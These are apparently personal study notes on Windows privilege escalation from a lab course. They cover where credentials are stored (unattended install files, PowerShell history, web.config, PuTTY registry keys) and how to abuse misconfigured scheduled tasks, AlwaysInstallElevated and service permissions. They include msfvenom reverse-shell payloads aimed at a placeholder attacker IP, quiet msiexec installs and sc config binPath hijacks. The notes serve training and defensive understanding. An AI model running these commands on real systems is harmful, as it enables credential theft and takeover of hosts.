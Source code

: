 - weaknesses for privilege escalation: 
	- Misconfigurations on Windows services or scheduled tasks
	- Excessive privileges assigned to our account
	- Vulnerable software
	- Missing Windows security patches

###### Windows Users
| Administrators     | These users have the most privileges. They can change any system configuration parameter and access any file in the system.                                                             |
| ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Standard Users** | **These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files.** |
- Users with administrative privileges will be part of the **Administrators** group. Standard users will be part of the **Users** group.

| System/LocalSystem  | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
| ------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Local Service**   | **Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.**                                                         |
| **Network Service** | **Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.**                                   |
###### Harvesting Passwords from Usual Spots
- credentials can be found in plaintext files, or stored by some software like browsers or email clients.
- **Unattended Windows Installations**: same Windows image installed on multiple hosts on the same network through **Windows Deployment Services**. The credentials of the administrator account which performs this setup can be found in:
	-  `C:\Unattend.xml`
	- `C:\Windows\Panther\Unattend.xml`
	- `C:\Windows\Panther\Unattend\Unattend.xml`
	- `C:\Windows\system32\sysprep.inf`
	- `C:\Windows\system32\sysprep\sysprep.xml`

```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

###### Powershell history
- **Powershell** command:`type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
- **cmd.exe** command: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

###### Saved Windows Credentials
- `cmdkey /list`
- `runas /savecred /user:admin cmd.exe`
- with `runas` you can spawn a shell for the specified user. (if there are stored credentials for that user - `cmdkey /list`) 

###### IIS (Internet Information Services) Configuration
- IIS is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config`. It can store passwords for databases or configured authentication mechanisms.
- Depending on the installed version of IIS:
	- `C:\inetpub\wwwroot\web.config`
	- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`

- Find database connection strings on the file:
	- `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

###### Retrieve Credentials from Software: PuTTY
- **PuTTY** is an SSH client commonly found on Windows systems. 
- "While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials. To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:"
- `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
- Simon Tatham is the creator of PuTTY.

###### Other Quick Wins
- **Scheduled tasks**
	- `schtasks`
	- `schtasks /query /tn <task-name> /fo list /v` - detailed info about a specific task
	- `icacls` - check file permissions on an executable (you can also manage the permissions of a file/folder with this command, just like `chmod` )
	- `C:\> schtasks /run /tn vulntask` - run a specific task manually (in this case `vulntask`)
	
- **AlwaysInstallElevated**:
	- MSI installers can be configured to run with higher privileges.
	- this method requires two registry values to be set
		- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
		- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
	- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi` - generates a malicious `.msi` file. Don't forget to use the [[Metasploit]] handler module for this reverse shell.
	- after you transferred the file you have created, run the installer with: `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
	- `msf6 exploit(windows/local/always_install_elevated)` 
	
- **Windows Services**
	- The **Service Control Manager** (**SCM**) manages the windows services.
	- `sc qc apphostsvc`
	- Services have a Discretionary Access Control List (`DACL`), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. `Process Hacker` can help you see the `DACL`.
	- All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\` (Registry Editor)
	- you can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value.
	
	![[Registry_Editor_apphostsvc.png]]

- **Insecure Permissions on Service Executable**
	- "If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially."
	- `sc qc WindowsScheduler`
		- `sc` - service control command-line utility
		- `qc`- Query Configuration
		- `WindowsScheduler` - service name, you can specify any service.
		
		![[sc_qc_WindowScheduler_output.png]]
		-  `icacls C:\PROGRA~2\SYSTEM~1\WService.exe`:
		![[windows_privesc_wservice_permissions.png]]
	- `user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
	- after transferring the payload, don't forget: `icacls <path to payload> /grant Everyone:F` - it will grant the `F` (Full Control) permission to everyone.
	- use `sc.exe stop <service-name>` and `sc.exe start <service-name>` on **Powershell** (`sc` in **Powershell** is an alias for `Set-Content`)

- **Unquoted Service Paths**
	- A service path that uses proper quotation:![[windows_privesc_service_path1.png]]
	- A service path that doesn't use proper quotation: ![[windows_privesc_service_path2.png]]
		- "Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string."
		- The **Service Control Manager** will try to execute:
		![[windows_privesc_unquoted_path.png]]

- **Insecure Service Permissions**
	-  To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.
	- The command to check for the thmservice service [[DACL (Discretionary Access Control Lists)]] is: `accesschk64.exe -qlc thmservice`
	- if `BUILTIN\\Users` group has the `SERVICE_ALL_ACCESS` permission, any user can reconfigure the service specified
	- `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`
